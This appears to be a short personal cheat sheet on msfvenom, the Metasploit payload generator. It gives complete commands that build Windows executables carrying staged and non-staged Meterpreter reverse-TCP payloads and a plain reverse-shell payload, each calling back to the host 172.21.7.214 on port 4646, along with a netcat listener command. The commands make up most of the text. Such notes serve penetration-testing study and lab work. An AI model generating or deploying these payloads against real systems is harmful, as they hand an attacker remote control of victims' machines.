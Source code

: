 Tool to generate payloads.

---

# Installation

> sudo apt install metasploit-framework

# Examples of staged payloads

````bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=172.21.7.214 LPORT=4646 -f exe -o reverse.exe
````

`-p` --> Indicate the **payload**. In this case the payload is for generate a reverse shell by tcp
``--platform`` --> Indicate the **platform** to have compatibility
`-a` --> indicate the **architecture**
``LHOST`` --> Indicate the host that is going to receive the reverse shell
`LPORT` --> Indicate the port
`-f` --> **format**. In this case the format is a exe program
`-o` --> The name of the program generated

# Examples of non-staged payloads

````bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows
-a x64 LHOST=172.21.7.214 LPORT=4646 -f exe -o shell.exe
````

check that the unique difference is this part **meterpreter_reverse_tcp** 

----

## Use netcat instead of metasploit

````bash
msfvenom -p windows/x64/shell_reverse_tcp --platform windows
-a x64 LHOST=172.21.7.214 LPORT=4646 -f exe -o shell.exe
````

This is your listener

````bash
nc -nlvp 4646
````

You can use rlwrap at the beginning to have a "simulate tty"

----

# Tags

#tools #msfvenom 

---